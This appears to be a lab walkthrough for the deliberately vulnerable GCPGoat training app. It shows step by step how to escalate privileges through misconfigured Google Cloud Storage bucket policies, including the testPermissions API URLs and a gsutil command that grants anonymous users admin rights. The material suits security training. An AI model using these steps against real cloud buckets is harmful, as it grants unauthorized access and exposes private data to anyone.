 In this lab, we will exploit misconfigured Google Cloud Storage (GCS) bucket policies to gain administrative access to one of the storage buckets. Within this bucket, we will find credentials for a low-privileged virtual machine (VM). We'll then use these credentials to pivot and access higher-privileged compute instances via the low-privileged machine.

---

# Part 01: Exploiting Misconfigured Bucket Policies for Privilege Escalation

In this first part of the lab, we will exploit misconfigured Google Cloud Storage (GCS) bucket policies to gain administrative access to one of the storage buckets.

---

## Walkthrough

### **Step 1: Access the Application**

Open any blog post from the GCPGoat application’s homepage.

![](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-01.png)

---

### **Step 2: Open the Blog Image**

Right-click on the image in the blog post and open it in a new tab.

![](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-02.png)

---

### **Step 3: Identify the Storage Bucket**

In the new tab, observe the image URL. You'll notice it's being served from a Google Cloud Storage bucket.

![](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-03.png)

Extract and note the bucket name appearing after `storage.googleapis.com`.

---

### **Step 4: Attempt to List the Bucket’s Content**

Use the following URL (replacing `<BUCKET NAME>` with the actual bucket name) to try listing its contents:

```
https://storage.googleapis.com/<BUCKET NAME>
```

![](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-04.png)

You’ll likely receive an "Access Denied" error.

---

### **Step 5: Test Bucket Permissions**

Use the following URL to check which permissions you have on the bucket:

```
https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?permissions=storage.buckets.delete&permissions=storage.buckets.get&permissions=storage.buckets.getIamPolicy&permissions=storage.buckets.setIamPolicy&permissions=storage.buckets.update&permissions=storage.objects.create&permissions=storage.objects.delete&permissions=storage.objects.get&permissions=storage.objects.list&permissions=storage.objects.update
```

Replace `BUCKET_NAME` with the bucket’s actual name.

![](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-05.png)

In this case, you’ll see that only the `storage.buckets.get` permission is granted. However, the bucket name includes “prod”, which suggests there might also be a development version.

---

### **Step 6: Discover the Dev Bucket**

Try accessing a similar bucket name using `dev` instead of `prod`:

```
https://storage.googleapis.com/<DEV BUCKET NAME>
```

![](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-06.png)

You may again receive an "Access Denied" response—but this confirms the dev bucket exists.

---

### **Step 7: Check Dev Bucket Permissions**

Repeat the permission test on the dev bucket:

```
https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?...<permissions list>...
```

![](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-07.png)

This time, you might notice additional permissions:

* `storage.buckets.setIamPolicy`: Allows modifying the bucket’s IAM policy.
* `storage.buckets.getIamPolicy`: Allows reading the bucket’s IAM policy.

---

### **Step 8: Retrieve Current IAM Policy**

Use the `gsutil` command-line tool to fetch the current IAM policy of the bucket:

```
gsutil iam get gs://<BUCKET NAME>
```

![](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-08.png)

Here, you’ll find that the `allUsers` group (anonymous users) already has a custom role with certain permissions.

---

### **Step 9: Add Admin Role to allUsers**

Now that you have IAM modification rights, assign the `admin` role to `allUsers`:

```
gsutil iam ch allUsers:admin gs://<BUCKET NAME>
```

![](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-09.png)

---

### **Step 10: Verify Admin Role Assignment**

Confirm the change by listing the IAM roles again:

```
gsutil iam get gs://<BUCKET NAME>
```

![](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-10.png)

You should now see that `allUsers` have admin access.

---

### **Step 11: Retest Permissions**

Test your updated permissions using the same TestIamPermissions API:

```
https://www.googleapis.com/storage/v1/b/BUCKET_NAME/iam/testPermissions?...<permissions list>...
```

![](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-11.png)

You should now have full access, including the ability to list, update, and delete objects in the bucket.

---

### **Step 12: List Bucket Contents**

Now that you have admin access, try listing the contents again:

```
https://storage.googleapis.com/<DEV BUCKET NAME>
```

![](GCPGoat%20Screenshots/GCPGoat-Lab02/GCPGoat-Lab02-12.png)

The contents will now be listed, confirming successful privilege escalation.

---

